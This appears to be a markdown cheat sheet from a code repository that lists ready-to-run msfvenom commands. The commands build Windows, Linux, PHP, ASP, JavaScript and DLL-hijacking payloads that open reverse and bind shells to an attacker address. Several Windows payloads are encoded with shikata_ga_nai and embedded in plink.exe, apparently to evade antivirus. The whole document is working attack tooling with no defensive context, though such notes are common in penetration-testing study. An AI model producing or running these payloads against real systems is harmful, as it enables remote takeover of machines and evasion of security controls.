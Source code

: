 # WINDOWS ENCODED PAYLOADS  PORT 443
**====CHANGE. IP. AS. NEEDED.====**

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe
```

## ---===BIND SHELL, ENCODED, ON PORT 1234===---
```sh
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe
```

## Code for encoding:
```sh
msfvenom --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe
```

================================================================================
# LINUX 
#### LINUX/x86/METERPRETER/REVERSE_TCP
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf
```

# NETCAT
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
```
================================================================================

# PHP 
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## PHP/METERPRETER/REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## PHP/REVERSE_PHP [PORT 443]
```sh
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> 
shell.php
```
================================================================================

# ASP
#### ASP-REVERSE-PAYLOAD [PORT 443]
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
## OR FOR NETCAT [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
================================================================================
## Client-Side, Unicode Payload - For use with Internet Explorer and IE
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none
```

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

# SHELLCODE GENERATION:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
```

## DLL HiJacking - Windows - x64
```sh
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell
```







